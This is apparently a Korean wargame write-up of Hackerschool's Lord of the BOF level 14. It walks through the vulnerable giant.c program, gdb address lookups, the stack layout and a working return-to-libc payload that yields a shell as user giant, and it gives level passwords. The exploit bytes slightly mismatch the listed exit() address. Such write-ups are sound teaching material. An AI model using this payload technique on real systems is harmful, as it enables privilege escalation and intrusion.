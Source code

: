 ```yaml
---
layout: post
title: "[Wargame] 해커스쿨 LEVEL14 (Bugbear -> Giant) : RTL2, Only Execve"
date: 2015-11-30 02:03:10
category: wargame
tags:  bof 
---
```


- id = bugbear
- pw = new divide

<!-- more -->

## 1. 문제 : giant.c

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - giant
        - RTL2
*/

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(int argc, char *argv[])
{
        char buffer[40];
        FILE *fp;
        char *lib_addr, *execve_offset, *execve_addr;
        char *ret;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // gain address of execve
        fp = popen("/usr/bin/ldd /home/giant/assassin | /bin/grep ibc | /bin/awk '{print $4}'", "r");
        fgets(buffer, 255, fp);
        sscanf(buffer, "(%x)", &lib_addr);
        fclose(fp);

        fp = popen("/usr/bin/nm /lib/libc.so.6 | /bin/grep __execve | /bin/awk '{print $1}'", "r");
        fgets(buffer, 255, fp);
        sscanf(buffer, "%x", &execve_offset);
        fclose(fp);

        execve_addr = lib_addr + (int)execve_offset;
        // end

        memcpy(&ret, &(argv[1][44]), 4);
        if(ret != execve_addr)
        {
                printf("You must use execve!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}
```

### 1.1 변경된 코드

앞부분에 추가된 내용은 execve() 함수의 주소를 얻기 위함이고, 주변 변경 사항은 아래와 같이 RTL 공격에 사용된 함수가 execv() 이어야 한다는 것이다.

```c
memcpy(&ret, &(argv[1][44]), 4);
if(ret != execve_addr)
{
    printf("You must use execve!\n");
    exit(0);
}
```

## 2. 공격 준비

### 2.1 공격 방법 고민

#### 2.1.1 execve() 주소 = 0x400a9d48

```
(gdb) p execve
$1 = {<text variable, no debug info>} 0x400a9d48 <__execve>
```

## 2.4 LR 확인 : 계속 실패 ???

앞에서 확인한 execve() 값을 넣고 조건 체크 넘어가는지 확인.

```bash
> ./giant `python -c 'print "\x90"*44 + "\x48\x9d\x0a\x40"'` 
You must use execve!
```

이상하게도 execve() 값을 제대로 넣고 실행을 했은데도 계속 조건 체크 if 문제 걸려서 제대로 동작하지 않는거다… T_T; XXX 는 값을 shell 에서 evaluation 한 것인데, 현재 0x0a = New Line 으로 인하여 값이 제대로 들어가지 않는다고 한다. "XXX" 와 같이 " 를 이용하여 모든 값을 문자열로 전달하여야 한다(고 한다.)

```bash
$ > ./giant "`python -c 'print "\x90"*44 + "\x48\x9d\x0a\x40"'`"
H
@
Segmentation fault
```

### 2.5 Stack 구성

```
[ Buffer[40] ][ SFR ][ LR ][ ...]
= [ Buffer[44] ][ execve() ][ system() ][ exit() ][ /bin/sh ]

- execve() : 0x400a9d48
- system() : 0x40058ae0
- exit()   : 0x400391e0
- /bin/sh  : 0x400fbff9
```

## 3 Exploit

```bash
$ > ./giant "`python -c 'print "\x90"*44 + "\x48\x9d\x0a\x40" + "\xe0\x8a\x05\x40" + "\xe0\x9a\x03\x40" + "\xf9\xbf\x0f\x40"'`"  
H
@à@à@ù¿@

bash$ id
uid=513(bugbear) gid=513(bugbear) euid=514(giant) egid=514(giant) groups=513(bugbear)
```

## 4. 다음 단계 정보

```bash
bash$ id
uid=513(bugbear) gid=513(bugbear) euid=514(giant) egid=514(giant) groups=513(bugbear)

bash$ my-pass
euid = 514
one step closer
```






